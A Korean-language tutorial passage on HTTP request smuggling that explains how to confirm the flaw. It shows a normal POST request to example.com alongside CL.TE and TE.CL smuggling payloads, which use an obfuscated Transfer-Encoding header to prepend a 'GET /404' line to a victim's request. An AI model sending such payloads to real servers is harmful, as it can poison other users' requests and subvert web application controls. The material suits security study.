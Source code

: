 ### 2. Confirm

공격을 진행하다 보면 Back-End 서버는 Connection을 끊고 Poison된 버퍼를 버릴수도 있다. 이를 피하기 위해서는 기본적으로 POST Request를 받기로 예정된 타겟에 공격을 날리는 것이 효과적이다. 다시 말해, 원래 요청이 웹 애플리케이션에서 POST Request를 받던 곳에 POST Request를 날리는 것이 공격 성공 가능성을 크게 향상 시킬 수 있다.

또한 일부 Back-End 서버는 각 요청, URL, Header등을 다른곳(예를 들면 Load-Balancer가 요청들을 분류해서 다른 Back-End Server에서 처리하도록 지시할 수도 있다)에서 처리하는 경우도 있다. 이를 피하기 위해 '공격자' 즉, 'Attacker'의 Request와 '피해자', 'Victim'의 Request를 최대한 유사하게 만드는 것이 핵심이다.

예를 들면 만약 기본 POST Request가 아래와 같다고 보자.

```
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

그러면 CL.TE 공격은 아래와 같이 될 것이다.

```
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: zchunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: bPOST /search HTTP/1.1
Host: example.com
…
```

만약 이 공격이 성공적이라면, `GET /404 HTTP/1.1\r\nFoo: b` 부분이 사용자의 Request `POST /search HTTP/1.1...` 앞에 붙어 사용자의 Request Header의 Start Line은 `GET /404 HTTP/1.1`이 될 것이고 사용자에게 404 Response를 유도할 것이다. (`q=smuggling&x=`이라고 적힌 부분은 실제 공격에서는 정상적으로 보내지는 parameter와 value가 될것이다.)

다음은 TE.CL 공격의 예시다. 해당 공격은 전(CL.TE)과는 조금 다른 성격을 띈다. 그 이유는 Chunk를 직접 닫아줘야하기 때문에 Header의 모든 값들을 직접 입력해주고 피해자의 Request를 Body에 넣어야한다. 그리고  Prefix에 있는 Content-Length가 body보다는 커야한다.

```
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: zchunked

96
GET /404 HTTP/1.1
X: x=1&q=smugging&x=
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

x=
0

POST /search HTTP/1.1
Host: example.com
```
